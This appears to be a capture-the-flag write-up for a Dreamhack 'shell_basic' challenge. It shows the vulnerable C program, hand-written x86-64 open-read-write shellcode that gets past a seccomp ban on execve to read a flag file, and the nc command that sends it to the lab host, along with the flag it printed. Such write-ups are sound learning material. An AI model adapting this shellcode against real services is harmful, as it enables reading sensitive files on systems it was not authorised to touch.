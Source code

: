 ### The challengee

Based on the source code of the program hosted on dreamhacks VM, the program allows you to execute shellcode as input, however there are two rules implemented using secure computing which prevents `execve` and `execveat` syscalls from being executed. The objective is to get the flag which they provided the full path `"/home/shell_basic/flag_name_is_loooooong"`.  My method is to directly read the contents from the flag.

```c
#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

After testing the code numerous times by compiling and running it locally, I can confirm I am able to read the contents of my flag. Initially, since I was very new to assembly, I realized things such as creating variables under `.data` and `.bss` are rendered useless when executing shellcode as the only code that will be executed is from the `.text` section.  So I had to re-implement my string and buffer.  I did this by manually writing the path and converting it to hex, then manually converting the values to little-endian (reverse the bytes).  Next, the buffer was done by subtracting `256` from the stack.

```asm
section .text
global _start

_start:
       ; syscall(open, "/home/shell_basic/flag_name_is_loooooong")
        push 0x0
        mov r8, 0x676e6f6f6f6f6f6f
        push r8
        mov r8, 0x6c5f73695f656d61
        push r8
        mov r8, 0x6e5f67616c662f63
        push r8
        mov r8, 0x697361625f6c6c65
        push r8
        mov  r8, 0x68732f656d6f682f
        push r8
        mov rdi, rsp
        xor rsi, rsi
        xor rdx, rdx
        mov rax, 0x2
        syscall

        cmp rax, 0x0
        js _exit

        ; read(int fd, void buf[.count], size_t count);
        ; syscall(read, fd, buffer, bufferlen)
        mov rbx, rax ; copy fd
        xor rax, rax
        mov rdi, rbx ; fd
        sub rsp, 0x100
        mov rsi, rsp ; move buffer size to rsi
        mov rdx, 0x100 ; buffer length 256
        syscall

        cmp rax, 0x0
        jle .close_fd

        ; syscall(write, int fd, void buffer, size_t length)
        mov rdi, 0x1 ; stdout
        mov rdx, rax ; length
        mov rax, 0x1 ; write
        syscall

.close_fd:
        ; syscall(close, fd)
        mov rdi, rbx
        mov rax, 0x3
        syscall

_exit:
        ; syscall(exit, 0x0)
        xor rdi, rdi
        mov rax, 0x3c ; exit
        syscall
```

### Converting my object file into shellcode

I used objcopy to extract the `.text` section from the object file and output is as a bin file.
```
objcopy --dump-section .text=x.bin x.o
```

### Retrieving the flag

```
nc host3.dreamhack.games 22761 < x.bin
shellcode: DH{ca562d7cf1db6c55cb11c4ec350a3c0b}
```
